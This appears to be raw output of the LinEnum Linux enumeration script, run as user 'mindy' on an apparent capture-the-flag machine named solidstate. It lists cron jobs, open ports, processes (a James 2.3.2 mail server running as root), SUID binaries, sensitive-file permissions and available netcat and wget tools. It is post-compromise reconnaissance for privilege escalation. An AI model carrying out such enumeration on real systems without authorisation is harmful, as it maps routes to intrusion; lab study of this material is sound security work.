DBUS_SESSION_BUS_ADDRESS=unix:path=/run/user/1001/bus
XDG_RUNTIME_DIR=/run/user/1001
PATH=/usr/local/bin:/usr/bin:/bin:/usr/games
_=/usr/bin/env


Path information:
/usr/local/bin:/usr/bin:/bin:/usr/games


Available shells:
# /etc/shells: valid login shells
/bin/sh
/bin/dash
/bin/bash
/bin/rbash


Current umask value:
0022
u=rwx,g=rx,o=rx


umask value as specified in /etc/login.defs:
UMASK		022


Password and storage information:
PASS_MAX_DAYS	99999
PASS_MIN_DAYS	0
PASS_WARN_AGE	7
ENCRYPT_METHOD SHA512


### JOBS/TASKS ##########################################
Cron jobs:
-rw-r--r-- 1 root root  722 May  3  2015 /etc/crontab

/etc/cron.d:
total 24
drwxr-xr-x   2 root root  4096 Jun 18  2017 .
drwxr-xr-x 121 root root 12288 Aug 27 13:30 ..
-rw-r--r--   1 root root   285 May 29  2017 anacron
-rw-r--r--   1 root root   102 May  3  2015 .placeholder

/etc/cron.daily:
total 56
drwxr-xr-x   2 root root  4096 Aug 22 13:21 .
drwxr-xr-x 121 root root 12288 Aug 27 13:30 ..
-rwxr-xr-x   1 root root   311 May 29  2017 0anacron
-rwxr-xr-x   1 root root   539 Jul 18  2017 apache2
-rwxr-xr-x   1 root root  1474 Jun  1  2017 apt-compat
-rwxr-xr-x   1 root root   355 Oct 25  2016 bsdmainutils
-rwxr-xr-x   1 root root   384 Dec 12  2012 cracklib-runtime
-rwxr-xr-x   1 root root  1597 Feb 22  2017 dpkg
-rwxr-xr-x   1 root root    89 May  5  2015 logrotate
-rwxr-xr-x   1 root root  1065 Dec 13  2016 man-db
-rwxr-xr-x   1 root root   249 May 17  2017 passwd
-rw-r--r--   1 root root   102 May  3  2015 .placeholder

/etc/cron.hourly:
total 20
drwxr-xr-x   2 root root  4096 Jun 18  2017 .
drwxr-xr-x 121 root root 12288 Aug 27 13:30 ..
-rw-r--r--   1 root root   102 May  3  2015 .placeholder

/etc/cron.monthly:
total 24
drwxr-xr-x   2 root root  4096 Jun 18  2017 .
drwxr-xr-x 121 root root 12288 Aug 27 13:30 ..
-rwxr-xr-x   1 root root   313 May 29  2017 0anacron
-rw-r--r--   1 root root   102 May  3  2015 .placeholder

/etc/cron.weekly:
total 28
drwxr-xr-x   2 root root  4096 Jun 18  2017 .
drwxr-xr-x 121 root root 12288 Aug 27 13:30 ..
-rwxr-xr-x   1 root root   312 May 29  2017 0anacron
-rwxr-xr-x   1 root root   723 Dec 13  2016 man-db
-rw-r--r--   1 root root   102 May  3  2015 .placeholder


Crontab contents:
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#


Anacron jobs and associated file permissions:
-rw-r--r-- 1 root root 401 May 29  2017 /etc/anacrontab
# /etc/anacrontab: configuration file for anacron

# See anacron(8) and anacrontab(5) for details.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
HOME=/root
LOGNAME=root

# These replace cron's entries
1	5	cron.daily	run-parts --report /etc/cron.daily
7	10	cron.weekly	run-parts --report /etc/cron.weekly
@monthly	15	cron.monthly	run-parts --report /etc/cron.monthly


When were jobs last executed (/var/spool/anacron contents):
total 20
drwxr-xr-x 2 root root 4096 Jun 18  2017 .
drwxr-xr-x 7 root root 4096 Jun 18  2017 ..
-rw------- 1 root root    9 Jan 27 19:24 cron.daily
-rw------- 1 root root    9 Jan 27 19:34 cron.monthly
-rw------- 1 root root    9 Jan 27 19:29 cron.weekly


### NETWORKING  ##########################################
Network & IP info:
ens33: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.51  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 fe80::250:56ff:feb9:9e5  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef::250:56ff:feb9:9e5  prefixlen 64  scopeid 0x0<global>
        ether 00:50:56:b9:09:e5  txqueuelen 1000  (Ethernet)
        RX packets 77850  bytes 5086936 (4.8 MiB)
        RX errors 0  dropped 21  overruns 0  frame 0
        TX packets 67021  bytes 3811871 (3.6 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
        device interrupt 19  base 0x2000

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1  (Local Loopback)
        RX packets 44996  bytes 3644478 (3.4 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 44996  bytes 3644478 (3.4 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0


Listening TCP:
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -
tcp        0   6236 10.10.10.51:22          10.10.14.8:41434        ESTABLISHED -
tcp6       0      0 :::22                   :::*                    LISTEN      -
tcp6       0      0 ::1:631                 :::*                    LISTEN      -
tcp6       0      0 :::119                  :::*                    LISTEN      -
tcp6       0      0 :::25                   :::*                    LISTEN      -
tcp6       0      0 :::4555                 :::*                    LISTEN      -
tcp6       0      0 :::110                  :::*                    LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -


Listening UDP:
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
udp        0      0 0.0.0.0:631             0.0.0.0:*                           -
udp        0      0 0.0.0.0:5353            0.0.0.0:*                           -
udp        0      0 0.0.0.0:38711           0.0.0.0:*                           -
udp        0      0 0.0.0.0:1900            0.0.0.0:*                           -
udp6       0      0 :::5353                 :::*                                -
udp6       0      0 :::47600                :::*                                -


### SERVICES #############################################
Running processes:
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.0  1.1  26972  5808 ?        Ss   19:18   0:01 /sbin/init
root         2  0.0  0.0      0     0 ?        S    19:18   0:00 [kthreadd]
root         3  0.0  0.0      0     0 ?        S    19:18   0:00 [ksoftirqd/0]
root         5  0.0  0.0      0     0 ?        S<   19:18   0:00 [kworker/0:0H]
root         7  0.0  0.0      0     0 ?        S    19:18   0:00 [rcu_sched]
root         8  0.0  0.0      0     0 ?        S    19:18   0:00 [rcu_bh]
root         9  0.0  0.0      0     0 ?        S    19:18   0:00 [migration/0]
root        10  0.0  0.0      0     0 ?        S<   19:18   0:00 [lru-add-drain]
root        11  0.0  0.0      0     0 ?        S    19:18   0:00 [watchdog/0]
root        12  0.0  0.0      0     0 ?        S    19:18   0:00 [cpuhp/0]
root        13  0.0  0.0      0     0 ?        S    19:18   0:00 [kdevtmpfs]
root        14  0.0  0.0      0     0 ?        S<   19:18   0:00 [netns]
root        15  0.0  0.0      0     0 ?        S    19:18   0:00 [khungtaskd]
root        16  0.0  0.0      0     0 ?        S    19:18   0:00 [oom_reaper]
root        17  0.0  0.0      0     0 ?        S<   19:18   0:00 [writeback]
root        18  0.0  0.0      0     0 ?        S    19:18   0:00 [kcompactd0]
root        19  0.0  0.0      0     0 ?        SN   19:18   0:00 [ksmd]
root        21  0.0  0.0      0     0 ?        S<   19:18   0:00 [crypto]
root        22  0.0  0.0      0     0 ?        S<   19:18   0:00 [kintegrityd]
root        23  0.0  0.0      0     0 ?        S<   19:18   0:00 [bioset]
root        24  0.0  0.0      0     0 ?        S<   19:18   0:00 [kblockd]
root        25  0.0  0.0      0     0 ?        S<   19:18   0:00 [devfreq_wq]
root        26  0.0  0.0      0     0 ?        S<   19:18   0:00 [watchdogd]
root        27  0.0  0.0      0     0 ?        S    19:18   0:00 [kswapd0]
root        28  0.0  0.0      0     0 ?        S<   19:18   0:00 [vmstat]
root        40  0.0  0.0      0     0 ?        S<   19:18   0:00 [kthrotld]
root        42  0.0  0.0      0     0 ?        S<   19:18   0:00 [ipv6_addrconf]
root        82  0.0  0.0      0     0 ?        S<   19:18   0:00 [ata_sff]
root        84  0.0  0.0      0     0 ?        S    19:18   0:00 [scsi_eh_0]
root        85  0.0  0.0      0     0 ?        S    19:18   0:00 [scsi_eh_1]
root        86  0.0  0.0      0     0 ?        S<   19:18   0:00 [scsi_tmf_0]
root        87  0.0  0.0      0     0 ?        S<   19:18   0:00 [scsi_tmf_1]
root        88  0.0  0.0      0     0 ?        S<   19:18   0:00 [vmw_pvscsi_wq_0]
root        89  0.0  0.0      0     0 ?        S    19:18   0:00 [scsi_eh_2]
root        90  0.0  0.0      0     0 ?        S    19:18   0:00 [kworker/u2:1]
root        91  0.0  0.0      0     0 ?        S<   19:18   0:00 [scsi_tmf_2]
root        92  0.0  0.0      0     0 ?        S<   19:18   0:00 [bioset]
root        93  0.0  0.0      0     0 ?        S    19:18   0:00 [kworker/u2:2]
root       128  0.0  0.0      0     0 ?        S<   19:18   0:00 [bioset]
root       130  0.0  0.0      0     0 ?        S<   19:18   0:00 [kworker/0:1H]
root       166  0.0  0.0      0     0 ?        S    19:19   0:00 [jbd2/sda1-8]
root       167  0.0  0.0      0     0 ?        S<   19:19   0:00 [ext4-rsv-conver]
root       196  0.0  0.8  24792  4532 ?        Ss   19:19   0:00 /lib/systemd/systemd-journald
root       201  0.0  0.0      0     0 ?        S    19:19   0:00 [kauditd]
root       208  0.0  0.5  16084  2656 ?        Ss   19:19   0:00 /lib/systemd/systemd-udevd
root       272  0.0  0.0      0     0 ?        S<   19:19   0:00 [nfit]
systemd+   273  0.0  0.7  16964  3664 ?        Ssl  19:19   0:00 /lib/systemd/systemd-timesyncd
root       289  0.0  0.0      0     0 ?        S<   19:19   0:00 [ttm_swap]
avahi      343  0.0  0.5   6256  2944 ?        Ss   19:19   0:03 avahi-daemon: running [solidstate.local]
root       345  0.0  0.1   2332   540 ?        Ss   19:19   0:00 /bin/sh /opt/james-2.3.2/bin/run.sh
root       346  0.0  0.5  23108  2616 ?        Ssl  19:19   0:00 /usr/sbin/rsyslogd -n
rtkit      347  0.0  0.5  24100  2840 ?        SNsl 19:19   0:00 /usr/lib/rtkit/rtkit-daemon
root       349  0.0  0.8   7444  4156 ?        Ss   19:19   0:00 /lib/systemd/systemd-logind
message+   350  0.0  0.8   6812  4080 ?        Ss   19:19   0:00 /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation
avahi      388  0.0  0.0   6256    60 ?        S    19:19   0:00 avahi-daemon: chroot helper
root       395  0.1  7.8 444024 40068 ?        Sl   19:19   0:11 /usr/lib/jvm/java-8-openjdk-i386//bin/java -Djava.ext.dirs=/opt/james-2.3.2/lib:/opt/james-2.3.2/tools/lib -Djava.security.manager -Djava.security.policy=jar:file:/opt/james-2.3.2/bin/phoenix-loader.jar!/META-INF/java.policy -Dnetworkaddress.cache.ttl=300 -Dphoenix.home=/opt/james-2.3.2 -Djava.io.tmpdir=/opt/james-2.3.2/temp -jar /opt/james-2.3.2/bin/phoenix-loader.jar
root       415  0.0  1.9  84132  9952 ?        Ssl  19:19   0:00 /usr/sbin/NetworkManager --no-daemon
root       416  0.0  0.5   5264  2740 ?        Ss   19:19   0:00 /usr/sbin/cron -f
root       417  0.0  1.1  50884  5608 ?        Ssl  19:19   0:00 /usr/sbin/ModemManager
root       418  0.0  1.1  38336  6092 ?        Ssl  19:19   0:00 /usr/lib/accountsservice/accounts-daemon
root       434  0.0  1.5  38624  7852 ?        Ssl  19:19   0:01 /usr/lib/policykit-1/polkitd --no-debug
root       540  0.0  1.1  10472  5696 ?        Ss   19:19   0:00 /usr/sbin/sshd -D
root       550  0.0  0.0   2236    60 ?        Ss   19:19   0:00 /usr/sbin/minissdpd -i 0.0.0.0
root       559  0.0  1.2  40204  6476 ?        Ssl  19:19   0:00 /usr/sbin/gdm3
root       567  0.0  1.3  31512  6884 ?        Sl   19:19   0:00 gdm-session-worker [pam/gdm-launch-environment]
root       584  0.0  0.8   6408  4288 ?        Ss   19:19   0:00 /usr/sbin/apache2 -k start
www-data   587  0.0  0.9 230316  4632 ?        Sl   19:19   0:01 /usr/sbin/apache2 -k start
www-data   588  0.0  0.8 230308  4556 ?        Sl   19:19   0:01 /usr/sbin/apache2 -k start
Debian-+   647  0.0  1.1   9456  5704 ?        Ss   19:19   0:00 /lib/systemd/systemd --user
Debian-+   648  0.0  0.1  10560   824 ?        S    19:19   0:00 (sd-pam)
Debian-+   652  0.0  0.8  27632  4260 tty1     Ssl+ 19:19   0:00 /usr/lib/gdm3/gdm-wayland-session gnome-session --autostart /usr/share/gdm/greeter/autostart
Debian-+   654  0.0  0.7   6368  3888 ?        Ss   19:19   0:00 /usr/bin/dbus-daemon --session --address=systemd: --nofork --nopidfile --systemd-activation
Debian-+   656  0.0  1.9  91544  9876 tty1     Sl+  19:19   0:00 /usr/lib/gnome-session/gnome-session-binary --autostart /usr/share/gdm/greeter/autostart
Debian-+   667  0.1 22.1 824864 112928 tty1    Sl+  19:19   0:12 /usr/bin/gnome-shell
root       695  0.0  1.4  50316  7352 ?        Ssl  19:19   0:00 /usr/lib/upower/upowerd
Debian-+   718  0.0  4.5  81916 23284 tty1     S+   19:19   0:00 /usr/bin/Xwayland :1024 -rootless -noreset -listen 4 -listen 5 -displayfd 6
Debian-+   721  0.0  1.0  44412  5492 ?        Ssl  19:19   0:00 /usr/lib/at-spi2-core/at-spi-bus-launcher
Debian-+   727  0.0  0.6   6260  3384 ?        S    19:19   0:00 /usr/bin/dbus-daemon --config-file=/usr/share/defaults/at-spi2/accessibility.conf --nofork --print-address 3
Debian-+   729  0.0  1.1  30484  5948 ?        Sl   19:19   0:00 /usr/lib/at-spi2-core/at-spi2-registryd --use-gnome-session
Debian-+   732  0.0  1.8 888536  9580 ?        Ssl  19:19   0:00 /usr/bin/pulseaudio --daemonize=no
root       788  0.0  0.9  10772  4712 ?        Ss   19:19   0:00 /sbin/wpa_supplicant -u -s -O /run/wpa_supplicant
root       789  0.0  2.1  46500 11036 ?        Ssl  19:19   0:00 /usr/lib/packagekit/packagekitd
Debian-+   790  0.0  7.3 432064 37504 tty1     Sl+  19:19   0:01 /usr/lib/gnome-settings-daemon/gnome-settings-daemon
colord     811  0.0  2.6  45652 13264 ?        Ssl  19:19   0:00 /usr/lib/colord/colord
root      1024  0.0  1.3  14652  7028 ?        Ss   19:24   0:00 /usr/sbin/cupsd -l
root      1025  0.0  1.6  35424  8516 ?        Ssl  19:24   0:00 /usr/sbin/cups-browsed
root      1651  0.0  0.0      0     0 ?        S    21:26   0:00 [kworker/0:1]
mindy     1663  0.0  1.0   9488  5508 ?        Ss   21:29   0:00 /lib/systemd/systemd --user
mindy     1664  0.0  0.2  28028  1040 ?        S    21:29   0:00 (sd-pam)
root      1712  0.0  0.0      0     0 ?        S    21:32   0:00 [kworker/0:0]
root      1722  0.0  1.2  11156  6308 ?        Ss   21:34   0:00 sshd: mindy [priv]
mindy     1728  0.0  0.6  11304  3456 ?        S    21:34   0:00 sshd: mindy@pts/1
mindy     1729  0.0  0.6   5660  3352 pts/1    Ss   21:34   0:00 bash --noprofile
root      1742  0.0  0.0      0     0 ?        S    21:37   0:00 [kworker/0:2]
root      2119  0.0  0.0      0     0 ?        S    21:39   0:00 [kworker/u2:0]
mindy     2120  0.0  0.7   5904  3588 pts/1    S+   21:39   0:00 /bin/bash ./LinEnum.sh -t
mindy     2121  0.0  0.6   5964  3228 pts/1    S+   21:39   0:00 /bin/bash ./LinEnum.sh -t
mindy     2122  0.0  0.0   3892   508 pts/1    S+   21:39   0:00 tee -a
mindy     2322  0.0  0.5   5948  2612 pts/1    S+   21:39   0:00 /bin/bash ./LinEnum.sh -t
mindy     2323  0.0  0.6   7672  3168 pts/1    R+   21:39   0:00 ps aux


Process binaries & associated permissions (from above list):
-rwxr-xr-x 1 root root 1265272 May 15  2017 /bin/bash
lrwxrwxrwx 1 root root       4 Jan 24  2017 /bin/sh -> dash
-rwxr-xr-x 1 root root 1083260 Jun  4  2017 /lib/systemd/systemd
-rwxr-xr-x 1 root root  116380 Jun  4  2017 /lib/systemd/systemd-journald
-rwxr-xr-x 1 root root  210632 Jun  4  2017 /lib/systemd/systemd-logind
-rwxr-xr-x 1 root root   38500 Jun  4  2017 /lib/systemd/systemd-timesyncd
-rwxr-xr-x 1 root root  460688 Jun  4  2017 /lib/systemd/systemd-udevd
lrwxrwxrwx 1 root root      20 Jun  4  2017 /sbin/init -> /lib/systemd/systemd
-rwxr-xr-x 1 root root 2465772 Feb 20  2017 /sbin/wpa_supplicant
-rwxr-xr-x 1 root root  259940 Apr  5  2017 /usr/bin/dbus-daemon
-rwxr-xr-x 1 root root   14272 Apr 26  2017 /usr/bin/gnome-shell
-rwxr-xr-x 1 root root   87496 Jan 19  2017 /usr/bin/pulseaudio
-rwxr-xr-x 1 root root 2475104 Jul  7  2017 /usr/bin/Xwayland
-rwxr-xr-x 1 root root  158628 Dec 29  2016 /usr/lib/accountsservice/accounts-daemon
-rwxr-xr-x 1 root root   90764 May  9  2017 /usr/lib/at-spi2-core/at-spi2-registryd
-rwxr-xr-x 1 root root   17768 May  9  2017 /usr/lib/at-spi2-core/at-spi-bus-launcher
-rwxr-xr-x 1 root root  329192 Sep  6  2016 /usr/lib/colord/colord
-rwxr-xr-x 1 root root   59808 Jun  6  2017 /usr/lib/gdm3/gdm-wayland-session
-rwxr-xr-x 1 root root  318972 Mar  9  2017 /usr/lib/gnome-session/gnome-session-binary
-rwxr-xr-x 1 root root   38956 Apr 24  2017 /usr/lib/gnome-settings-daemon/gnome-settings-daemon
lrwxrwxrwx 1 root root      15 Jul 23  2017 /usr/lib/jvm/java-8-openjdk-i386//bin/java -> ../jre/bin/java
-rwxr-xr-x 1 root root  312808 Mar  8  2017 /usr/lib/packagekit/packagekitd
-rwxr-xr-x 1 root root   14088 May 24  2017 /usr/lib/policykit-1/polkitd
-rwxr-xr-x 1 root root   63680 Oct 24  2015 /usr/lib/rtkit/rtkit-daemon
-rwxr-xr-x 1 root root  251292 Sep 19  2016 /usr/lib/upower/upowerd
-rwxr-xr-x 1 root root  647224 Jul 18  2017 /usr/sbin/apache2
-rwxr-xr-x 1 root root   47280 May  3  2015 /usr/sbin/cron
-rwxr-xr-x 1 root root  173632 Jan 19  2017 /usr/sbin/cups-browsed
-rwxr-xr-x 1 root root  505740 Jan 31  2017 /usr/sbin/cupsd
-rwxr-xr-x 1 root root  442068 Jun  6  2017 /usr/sbin/gdm3
-rwxr-xr-x 1 root root   30064 May  8  2017 /usr/sbin/minissdpd
-rwxr-xr-x 1 root root 1380552 Nov 16  2016 /usr/sbin/ModemManager
-rwxr-xr-x 1 root root 2820188 Mar 18  2017 /usr/sbin/NetworkManager
-rwxr-xr-x 1 root root  711000 Jan 18  2017 /usr/sbin/rsyslogd
-rwxr-xr-x 1 root root  957216 Jun 17  2017 /usr/sbin/sshd


/etc/init.d/ binary permissions:
total 148
drwxr-xr-x   2 root root  4096 Aug 22 13:21 .
drwxr-xr-x 121 root root 12288 Aug 27 13:30 ..
-rwxr-xr-x   1 root root  5336 Feb  1  2016 alsa-utils
-rwxr-xr-x   1 root root  2014 May 29  2017 anacron
-rwxr-xr-x   1 root root  8181 Jul 18  2017 apache2
-rwxr-xr-x   1 root root  2225 Jul 18  2017 apache-htcacheclean
-rwxr-xr-x   1 root root  2401 Jan 23  2017 avahi-daemon
-rwxr-xr-x   1 root root  2948 Oct 24  2016 bluetooth
-rwxr-xr-x   1 root root  1232 Apr  6  2017 console-setup.sh
-rwxr-xr-x   1 root root  3049 May  3  2015 cron
-rwxr-xr-x   1 root root  2816 Jan 18  2017 cups
-rwxr-xr-x   1 root root  1961 Jan 19  2017 cups-browsed
-rwxr-xr-x   1 root root  2813 Apr  5  2017 dbus
-rwxr-xr-x   1 root root  3033 May 20  2014 gdm3
-rwxr-xr-x   1 root root  3809 Mar 22  2017 hwclock.sh
-rwxr-xr-x   1 root root  1479 May 18  2016 keyboard-setup.sh
-rwxr-xr-x   1 root root  2044 Dec 25  2016 kmod
-rwxr-xr-x   1 root root  2241 Apr 26  2017 minissdpd
-rwxr-xr-x   1 root root  4597 Sep 16  2016 networking
-rwxr-xr-x   1 root root  1757 Mar 18  2017 network-manager
-rwxr-xr-x   1 root root   612 Dec  4  2015 pppd-dns
-rwxr-xr-x   1 root root  1191 Nov 22  2016 procps
-rwxr-xr-x   1 root root  4355 Jul 10  2014 rsync
-rwxr-xr-x   1 root root  2868 Jan 18  2017 rsyslog
-rwxr-xr-x   1 root root  2330 May 21  2017 saned
-rwxr-xr-x   1 root root  2117 Jan  9  2017 speech-dispatcher
-rwxr-xr-x   1 root root  4033 Jun 17  2017 ssh
-rwxr-xr-x   1 root root  6087 Jun  4  2017 udev
-rwxr-xr-x   1 root root  1391 May  6  2017 unattended-upgrades
-rwxr-xr-x   1 root root  2757 Nov 23  2016 x11-common


### SOFTWARE #############################################
Apache user configuration:
APACHE_RUN_USER=www-data
APACHE_RUN_GROUP=www-data


Anything in the Apache home dirs?:
/var/www/:
total 12K
drwxr-xr-x  3 root root 4.0K Aug 22 13:21 .
drwxr-xr-x 12 root root 4.0K Aug 22 13:21 ..
drwxr-xr-x  4 root root 4.0K Dec 23 18:16 html

/var/www/html:
total 68K
drwxr-xr-x 4 root root 4.0K Dec 23 18:16 .
drwxr-xr-x 3 root root 4.0K Aug 22 13:21 ..
-rw-r--r-- 1 root root 7.1K Dec 23 18:16 about.html
drwxr-xr-x 6 root root 4.0K Jul 18  2017 assets
drwxr-xr-x 2 root root 4.0K Jul 18  2017 images
-rw-r--r-- 1 root root 7.6K Dec 23 18:16 index.html
-rw-r--r-- 1 root root  17K Jul 18  2017 LICENSE.txt
-rw-r--r-- 1 root root  963 Jul 18  2017 README.txt
-rw-r--r-- 1 root root 8.3K Dec 23 18:16 services.html

/var/www/html/assets:
total 24K
drwxr-xr-x 6 root root 4.0K Jul 18  2017 .
drwxr-xr-x 4 root root 4.0K Dec 23 18:16 ..
drwxr-xr-x 3 root root 4.0K Jul 18  2017 css
drwxr-xr-x 2 root root 4.0K Jul 18  2017 fonts
drwxr-xr-x 3 root root 4.0K Jul 18  2017 js
drwxr-xr-x 6 root root 4.0K Jul 18  2017 sass

/var/www/html/assets/css:
total 124K
drwxr-xr-x 3 root root 4.0K Jul 18  2017 .
drwxr-xr-x 6 root root 4.0K Jul 18  2017 ..
-rw-r--r-- 1 root root  29K Jul 18  2017 font-awesome.min.css
-rw-r--r-- 1 root root 2.5K Jul 18  2017 ie8.css
-rw-r--r-- 1 root root 1.3K Jul 18  2017 ie9.css
drwxr-xr-x 2 root root 4.0K Jul 18  2017 images
-rw-r--r-- 1 root root  71K Jul 18  2017 main.css

/var/www/html/assets/css/images:
total 12K
drwxr-xr-x 2 root root 4.0K Jul 18  2017 .
drwxr-xr-x 3 root root 4.0K Jul 18  2017 ..
-rw-r--r-- 1 root root  246 Jul 18  2017 close.svg

/var/www/html/assets/fonts:
total 908K
drwxr-xr-x 2 root root 4.0K Jul 18  2017 .
drwxr-xr-x 6 root root 4.0K Jul 18  2017 ..
-rw-r--r-- 1 root root 123K Jul 18  2017 FontAwesome.otf
-rw-r--r-- 1 root root  75K Jul 18  2017 fontawesome-webfont.eot
-rw-r--r-- 1 root root 383K Jul 18  2017 fontawesome-webfont.svg
-rw-r--r-- 1 root root 150K Jul 18  2017 fontawesome-webfont.ttf
-rw-r--r-- 1 root root  89K Jul 18  2017 fontawesome-webfont.woff
-rw-r--r-- 1 root root  71K Jul 18  2017 fontawesome-webfont.woff2

/var/www/html/assets/js:
total 144K
drwxr-xr-x 3 root root 4.0K Jul 18  2017 .
drwxr-xr-x 6 root root 4.0K Jul 18  2017 ..
drwxr-xr-x 2 root root 4.0K Jul 18  2017 ie
-rw-r--r-- 1 root root  94K Jul 18  2017 jquery.min.js
-rw-r--r-- 1 root root 2.3K Jul 18  2017 jquery.scrollex.min.js
-rw-r--r-- 1 root root 3.2K Jul 18  2017 main.js
-rw-r--r-- 1 root root 8.9K Jul 18  2017 skel.min.js
-rw-r--r-- 1 root root  13K Jul 18  2017 util.js

/var/www/html/assets/js/ie:
total 68K
drwxr-xr-x 2 root root 4.0K Jul 18  2017 .
drwxr-xr-x 3 root root 4.0K Jul 18  2017 ..
-rw-r--r-- 1 root root 3.8K Jul 18  2017 backgroundsize.min.htc
-rw-r--r-- 1 root root 2.4K Jul 18  2017 html5shiv.js
-rw-r--r-- 1 root root  41K Jul 18  2017 PIE.htc
-rw-r--r-- 1 root root 4.5K Jul 18  2017 respond.min.js

/var/www/html/assets/sass:
total 36K
drwxr-xr-x 6 root root 4.0K Jul 18  2017 .
drwxr-xr-x 6 root root 4.0K Jul 18  2017 ..
drwxr-xr-x 2 root root 4.0K Jul 18  2017 base
drwxr-xr-x 2 root root 4.0K Jul 18  2017 components
-rw-r--r-- 1 root root 2.8K Jul 18  2017 ie8.scss
-rw-r--r-- 1 root root 1.6K Jul 18  2017 ie9.scss
drwxr-xr-x 2 root root 4.0K Jul 18  2017 layout
drwxr-xr-x 2 root root 4.0K Jul 18  2017 libs
-rw-r--r-- 1 root root 1.3K Jul 18  2017 main.scss

/var/www/html/assets/sass/base:
total 16K
drwxr-xr-x 2 root root 4.0K Jul 18  2017 .
drwxr-xr-x 6 root root 4.0K Jul 18  2017 ..
-rw-r--r-- 1 root root 1.2K Jul 18  2017 _page.scss
-rw-r--r-- 1 root root 4.0K Jul 18  2017 _typography.scss

/var/www/html/assets/sass/components:
total 48K
drwxr-xr-x 2 root root 4.0K Jul 18  2017 .
drwxr-xr-x 6 root root 4.0K Jul 18  2017 ..
-rw-r--r-- 1 root root  517 Jul 18  2017 _box.scss
-rw-r--r-- 1 root root 1.8K Jul 18  2017 _button.scss
-rw-r--r-- 1 root root 1.9K Jul 18  2017 _features.scss
-rw-r--r-- 1 root root 3.8K Jul 18  2017 _form.scss
-rw-r--r-- 1 root root  288 Jul 18  2017 _icon.scss
-rw-r--r-- 1 root root  889 Jul 18  2017 _image.scss
-rw-r--r-- 1 root root 4.8K Jul 18  2017 _list.scss
-rw-r--r-- 1 root root  249 Jul 18  2017 _section.scss
-rw-r--r-- 1 root root 1.3K Jul 18  2017 _table.scss

/var/www/html/assets/sass/layout:
total 32K
drwxr-xr-x 2 root root 4.0K Jul 18  2017 .
drwxr-xr-x 6 root root 4.0K Jul 18  2017 ..
-rw-r--r-- 1 root root 3.2K Jul 18  2017 _banner.scss
-rw-r--r-- 1 root root 2.9K Jul 18  2017 _footer.scss
-rw-r--r-- 1 root root 2.7K Jul 18  2017 _header.scss
-rw-r--r-- 1 root root 2.8K Jul 18  2017 _menu.scss
-rw-r--r-- 1 root root 6.2K Jul 18  2017 _wrapper.scss

/var/www/html/assets/sass/libs:
total 48K
drwxr-xr-x 2 root root 4.0K Jul 18  2017 .
drwxr-xr-x 6 root root 4.0K Jul 18  2017 ..
-rw-r--r-- 1 root root  787 Jul 18  2017 _functions.scss
-rw-r--r-- 1 root root 9.2K Jul 18  2017 _mixins.scss
-rw-r--r-- 1 root root  17K Jul 18  2017 _skel.scss
-rw-r--r-- 1 root root 1.1K Jul 18  2017 _vars.scss

/var/www/html/images:
total 784K
drwxr-xr-x 2 root root 4.0K Jul 18  2017 .
drwxr-xr-x 4 root root 4.0K Dec 23 18:16 ..
-rw-r--r-- 1 root root  11K Jul 18  2017 bg.jpg
-rw-r--r-- 1 root root  14K Jul 18  2017 pic01.jpg
-rw-r--r-- 1 root root 330K Jul 18  2017 pic02.jpg
-rw-r--r-- 1 root root 7.6K Jul 18  2017 pic03.jpg
-rw-r--r-- 1 root root 116K Jul 18  2017 pic04.jpg
-rw-r--r-- 1 root root  57K Jul 18  2017 pic05.jpg
-rw-r--r-- 1 root root 183K Jul 18  2017 pic06.jpg
-rw-r--r-- 1 root root  33K Jul 18  2017 pic07.jpg
-rw-r--r-- 1 root root 9.9K Jul 18  2017 pic08.jpg


### INTERESTING FILES ####################################
Useful file locations:
/bin/nc
/bin/netcat
/usr/bin/wget


Installed compilers:
ii  libllvm3.9:i386                       1:3.9.1-9                                   i386         Modular compiler and toolchain technologies, runtime library
ii  libxkbcommon0:i386                    0.7.1-1                                     i386         library interface to the XKB compiler - shared library


Can we read/write sensitive files:
-rw-r--r-- 1 root root 2107 Aug 22 13:52 /etc/passwd
-rw-r--r-- 1 root root 909 Aug 22 11:37 /etc/group
-rw-r--r-- 1 root root 767 Mar  4  2016 /etc/profile
-rw-r----- 1 root shadow 1375 Aug 22 11:39 /etc/shadow


SUID files:
-rwsr-xr-x 1 root root 39144 May 17  2017 /bin/su
-rwsr-xr-x 1 root root 38940 Mar 22  2017 /bin/mount
-rwsr-xr-x 1 root root 30112 Jun 23  2016 /bin/fusermount
-rwsr-xr-x 1 root root 68076 Nov 10  2016 /bin/ping
-rwsr-xr-x 1 root root 161520 Feb 26  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 26504 Mar 22  2017 /bin/umount
-rwsr-xr-x 1 root root 34920 May 17  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 22304 May 24  2017 /usr/bin/pkexec
